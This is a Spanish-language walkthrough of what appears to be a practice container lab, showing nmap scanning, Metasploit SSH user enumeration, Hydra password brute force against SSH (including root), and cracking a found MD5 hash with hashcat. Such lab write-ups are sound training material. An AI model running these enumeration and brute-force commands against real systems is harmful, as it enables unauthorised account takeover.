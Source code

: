 
Desplegamos el contenedor:

```Bash
bash auto_deploy.sh 
```

![[Pasted image 20250130205609.png]]

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![[Pasted image 20250130205731.png]]

Utilizamos **Metasploit** para buscar usuarios:

```
search ssh_enumusers
```

![[Pasted image 20250131104151.png]]

```
use auxiliary/scanner/ssh/ssh_enumusers
```

![[Pasted image 20250131104431.png]]

```
show options
```

![[Pasted image 20250131104454.png]]

```
set RHOSTS 172.17.0.2
```

![[Pasted image 20250131104537.png]]

```
set USER_FILE /usr/share/wordlists/rockyou.txt
```

![[Pasted image 20250131104553.png]]

```
show options
```

![[Pasted image 20250131104620.png]]

```
run
```

![[Pasted image 20250131104734.png]]

Fuerza Bruta con **Hydra**:

```
hydra -l lovely -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

![[Pasted image 20250130210723.png]]

Nos conectamos con **SSH**:

```
ssh lovely@172.17.0.2
```

![[Pasted image 20250130211908.png]]

Buscamos archivos ocultos:

```
cd /opt
```

![[Pasted image 20250131101511.png]]

```
ls -la
```

![[Pasted image 20250131101531.png]]

```
cat .hash
```

![[Pasted image 20250131101555.png]]

Encontramos un hash.

Utilizamos **hash-indentifier** para ver tipo de hash:

```
hash-identifier aa87ddc5b4c24406d26ddad771ef44b0
```

![[Pasted image 20250131102344.png]]

Utilizamos **hashcat** para crackear:

```
nano hash.txt
```

![[Pasted image 20250131101629.png]]

```
aa87ddc5b4c24406d26ddad771ef44b0
```

![[Pasted image 20250131103229.png]]

```
hashcat -a3 -m 0 hash.txt --wordlist /usr/share/wordlists/rockyou.txt
```

![[Pasted image 20250131102956.png]]

![[Pasted image 20250131102847.png]]

Otra forma de tener la contraseña:

Fuerza Bruta con **Hydra**:

```
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

![[Pasted image 20250130211807.png]]

Nos conectamos con **SSH**:

```
ssh root@172.17.0.2
```

![[Pasted image 20250131103437.png]]

```
whoami
```

![[Pasted image 20250131103454.png]]

